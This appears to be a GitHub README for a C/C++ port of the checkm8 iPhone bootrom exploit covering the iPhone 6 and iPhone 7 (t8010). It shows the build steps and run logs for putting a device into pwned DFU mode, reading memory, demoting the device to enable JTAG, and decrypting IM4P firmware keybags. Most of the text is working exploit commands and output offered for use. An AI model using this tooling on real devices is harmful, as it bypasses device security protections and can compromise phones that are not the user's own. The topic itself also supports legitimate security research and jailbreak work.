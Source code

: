 # King

Port of axi0mX's check-m8 exploit (<https://github.com/axi0mX/ipwndfu>) to C/C++

It works on Ubuntu 19.10 and Windows and supports the iPhone7 t8010(iBoot-2696.0.0.1.33) and the iPhone6 (thanks a1exdand).

For Windows use the zadig libusbk driver that contains this fix:

https://github.com/libusb/libusb/pull/699

# Compilation

```bash
cd King
mkdir build
cd build
cmake ..
make
cp -R ../bin .
```

# Run check-m8 exploit
```
sudo ./king checkm8
[*] Shellcode generated ...
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33]
[*] stage 1, heap grooming ...
[*] stage 2, usb setup, send 0x800 of 'A', sends no data
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33]
[*] stage 3, exploit
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33]
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[!] Device is now in pwned DFU Mode! :D
```

# Read memory
```
sudo ./king read64 0x100000280
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[*] [100000280] = 36322D746F6F4269
```

```
sudo ./king read32 0x100000280
[*] Device Serial Number: CPID:8010 CPRV:11 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[*] [100000280] = 6F6F4269
```

# Demote device (Enable JTAG)
```
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[*] DemotionReg: 287
[*] Setting Value...
[*] New DemotionReg: 286
[!] Succeeded to enable the JTAG!
```

# Decrypt and unpack IM4P firmware image
```
sudo ./king decryptIMG iBoot.d10.RELEASE.im4p   
decryptIMG4
IM4P: ---------
type: ibot
desc: iBoot-5540.0.129
size: 0x00072340

KBAG
num: 1
3c8b957e2bca7ce6e56b41f86490f535
9fde3e44de15dac204f895378d0e7eb03ecc2b67bb1958bb2c70508ea63875f5
num: 2
af60c224bd43c632a17495816dca1ae6
bada1c3314217e7dd6b903d4c3caf3a7aa0f214ec40f13a1085d04bb2d05dc25

[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8][*] Decrypted Keybag: 
DF97....15CE
[*] Decrypted Key: 
369......5CE
[*] Decrypted IV: 
DF........E7
[!] File succesfully decrypted and written to: iBoot.d10.RELEASE.im4p_decrypted
```
